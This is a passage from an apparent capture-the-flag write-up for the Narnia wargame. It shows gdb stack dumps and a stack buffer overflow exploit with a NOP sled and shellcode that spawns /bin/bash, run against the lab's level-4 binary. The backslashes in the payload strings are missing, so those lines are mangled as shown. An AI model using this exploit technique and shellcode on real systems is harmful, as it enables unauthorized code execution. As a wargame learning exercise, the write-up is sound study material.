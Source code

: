 0xffffcdf8:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce08:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce18:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce28:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce38:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce48:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce58:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce68:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce78:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce88:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce98:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcea8:     0x41414141      0x41414141      0x41414141      0x41414141           0xffffceb8:     0x41414141      0x42424242      0x90909090      0x90909090           0xffffcec8:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffced8:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffcee8:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffcef8:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffcf08:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffcf18:     0x90909090      0x90909090      0x90909090      0x99580b6a              
0xffffcf28:     0x2d686652      0x52e18970      0x2f68686a      0x68736162           0xffffcf38:     0x6e69622f      0x5152e389      0xcde18953      0x00000080                                                                                                   
{% endhighlight %}

We can see that the NOP sled starts at 0xffffcec0, and the shellcode starts at 0xffffcf24. So the eip register can point to any address within the boundaries of these two address (the address of 0xffffcf08 was arbitrarily chosen; any address within the nop sled would work):

{% highlight bash %}
pwndbg> r $(python -c "print 'A'*264+'x08xcfxffxff'*4+'x90'*100+'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe  
3x52x51x53x89xe1xcdx80'")                                                                                                                                              
Starting program: /home/0xd4y/business/other/overthewire/narnia/4/narnia4 $(python -c "print 'A'*264+'x08xcfxffxff'*4+'x90'*100+'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80'")                                                                          
{% endhighlight %}

![](/reports/Narnia/image11.png)

Expectedly, using this same methodology on the target machine results in successful exploitation:

{% highlight bash %}
(gdb) r $(python -c "print 'A'*264 +'B'*4+'x90'*100+'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x8  
9xe1xcdx80'")                                                                                                                                                              
Starting program: /narnia/narnia4 $(python -c "print 'A'*264 +'B'*4+'x90'*100+'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69  
x6ex89xe3x52x51x53x89xe1xcdx80'")  
  
Program received signal SIGSEGV, Segmentation fault.  
0x42424242 in ?? ()  
(gdb) x/100x $esp-200  
0xffffd378:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd388:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd398:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3a8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3b8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3c8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3d8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3e8:     0x41414141      0x41414141      0x41414141      0x41414141  